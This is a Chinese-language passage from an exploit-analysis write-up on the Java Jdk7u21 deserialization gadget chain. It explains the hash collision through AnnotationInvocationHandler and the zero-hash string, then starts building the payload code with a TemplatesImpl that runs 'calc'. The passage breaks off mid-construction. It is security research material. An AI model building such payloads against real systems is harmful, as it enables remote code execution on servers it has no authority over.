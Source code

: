 所以我们可以进行像这样构造. 但是发现前提条件 ```1``` 并没有满足，所以需要看一下 ```hash``` 方法.

```java

	HashMap hashmap = new HashMap();
    hashmap.put(templatesImpl, "templatesImpl");
    hashmap.put(templates, "templates");
```

```hash``` 方法中实际调用了传入 ```k``` 的 ```hashCode``` 方法. 所以实际调用的是 ```templatesImpl``` 和 ```templates``` 对象的 ```hashCode``` 方法.

```java
final int hash(Object k) {
    int h = 0;
    if (useAltHashing) {
        if (k instanceof String) {
            return sun.misc.Hashing.stringHash32((String) k);
        }
        h = hashSeed;
    }

    h ^= k.hashCode();

    // This function ensures that hashCodes that differ only by
    // constant multiples at each bit position have a bounded
    // number of collisions (approximately 8 at default load factor).
    h ^= (h >>> 20) ^ (h >>> 12);
    return h ^ (h >>> 7) ^ (h >>> 4);
}
```

```TemplatesImpl``` 类没有重写 ```hashCode``` 方法，调用默认的 ```hashCode``` 方法.```templates``` 对象对应的代理类重写了 ```hashCode``` 方法，实际调用 ```AnnotationInvocationHandler``` 类的 ```hashCodeImpl``` 方法.分析一下这个方法, 发现这个方法会遍历 ```this.memberValues```，每次用上一次计算的值加上 ```127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())```，而 ```memberValueHashCode``` 方法中知道，如果 ```this.memberValues``` 值的 ```value``` 值的类不是数组，就会返回该 ```value``` 值的 ```hashCode``` 值.如果 ```this.memberValues``` 只有一个 ```map``` 对象，并且 ```127 * ((String)var3.getKey()).hashCode()``` 计算的值为零，```map``` 对象的 ```value``` 值为 ```templatesImpl``` 对象时，能够使得 ```HashMap``` 两次 ```put``` 值的 ```key``` 值相等.所以在创建 ```AnnotationInvocationHandler``` 对象时，传入的 ```map``` 对象，```key``` 的 ```hashCode``` 值应该为零，```value``` 值为 ```templatesImpl``` 对象.


```java
private int hashCodeImpl() {
    int var1 = 0;

    Entry var3;
    for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
        var3 = (Entry)var2.next();
    }

    return var1;
}
```

这时我们构造的代码如下:

```java

TemplatesImpl templatesImpl = createTemplatesImpl("calc", TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);

String zeroHashCodeStr = "f5a5a608";

HashMap map = new HashMap();
map.put(zeroHashCodeStr, templatesImpl);

System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");

InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").
        newInstance(Templates.class, map);

final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class,1);
allIfaces[0] = Templates.class;
```